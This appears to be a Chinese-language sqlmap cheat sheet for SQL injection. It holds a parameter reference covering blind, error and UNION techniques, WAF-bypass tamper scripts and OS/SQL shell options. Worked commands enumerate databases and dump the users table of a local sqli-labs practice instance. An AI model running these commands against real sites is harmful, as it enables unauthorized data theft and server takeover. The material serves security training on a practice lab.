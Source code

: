 ## 基础命令结构
kali:

sqlmap -u [目标URL] [参数]

## 参数速查

### 1、必选参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `-u <URL>` | 指定目标URL（GET请求） | `-u "http://example.com/?id=1"` |
| `--data=<DATA>` | 指定POST请求数据 | `--data="user=admin&pass=123"` |
| `-r <文件>` | 从文件加载HTTP请求（如Burp抓包） | `-r request.txt` |
| `-l <日志>` | 从Burp日志中解析目标 | `-l burp.log` |

### 2、注入技术参数

| 参数 | 作用 | 适用场景 |
|------|------|------|
| `--technique=B` | 布尔盲注（Boolean-based） | 页面有真/假状态差异 |
| `--technique=T` | 时间盲注（Time-based） | 无回显，依赖延迟（如Less-9） |
| `--technique=E` | 报错注入（Error-based） | 数据库返回错误信息 |
| `--technique=U` | UNION联合查询 | 有回显且列数可控 |

### 3、数据库操作参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `--dbs` | 列出所有数据库 | `--dbs` |
| `--current-db` | 获取当前数据库名 | `--current-db` |
| `-D <db>` | 指定目标数据库 | `-D security` |
| `--tables` | 列出表名 | `--tables` |
| `-T <table>` | 指定目标表 | `-T users` |
| `--columns` | 列出列名 | `--columns` |
| `--dump` | 导出表数据 | `--dump` |
| `--schema` | 导出数据库结构 | `--schema` |

### 4、优化与绕过参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `--threads=10` | 多线程加速（默认1） | `--threads=10` |
| `--time-sec=2` | 设置时间盲注延迟（默认5秒） | `--time-sec=2` |
| `--tamper=<脚本>` | 混淆Payload绕过WAF | `--tamper=space2comment` |
| `--random-agent` | 随机User-Agent | `--random-agent` |
| `--proxy=<代理>` | 通过代理发送请求 | `--proxy="http://127.0.0.1:8080"` |

### 5、常用功能参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `--batch` | 非交互模式（自动确认） | `--batch` |
| `--level=1-5` | 测试等级（1-5，默认1） | `--level=3` |
| `--risk=1-3` | 风险等级（1-3，默认1） | `--risk=2` |
| `--os-shell` | 获取操作系统Shell | `--os-shell` |
| `--sql-shell` | 获取SQL交互Shell | `--sql-shell` |
| `--output-dir=<路径>` | 指定结果保存目录 | `--output-dir=/tmp/` |

## 使用示例

### GET注入

1、注入前测试

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" --batch

![img.png](img.png)

布尔盲注和时间盲注均可用

2、开始注入：

查看全部数据库

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" --dbs --technique=B --batch

查看表名

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" -D security --tables --technique=B --batch

查看列名

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" -D security -T users --columns --technique=B --batch

查看数据

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" -D security -T users --dump --technique=B --batch

### POST注入

1、注入前测试

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" --batch

![img_1.png](img_1.png)

2、开始注入：

查看全部数据库

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" --dbs --batch

查看表名

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" -D security --tables --batch

查看列名

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" -D security -T users --columns --batch

查看数据

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" -D security -T users --dump --batch 

